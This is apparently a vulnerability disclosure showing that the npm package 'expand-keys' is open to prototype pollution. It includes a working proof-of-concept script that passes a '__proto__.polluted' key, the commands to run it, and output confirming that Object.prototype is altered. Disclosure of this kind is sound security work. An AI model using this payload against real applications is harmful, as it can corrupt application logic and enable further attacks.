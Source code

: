 # Description

`expand-keys` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var {expandKeys} = require("expand-keys")
console.log("Before : " + {}.polluted);
expandKeys({"__proto__.polluted": "Yes! Its Polluted"})
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i expand-keys # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
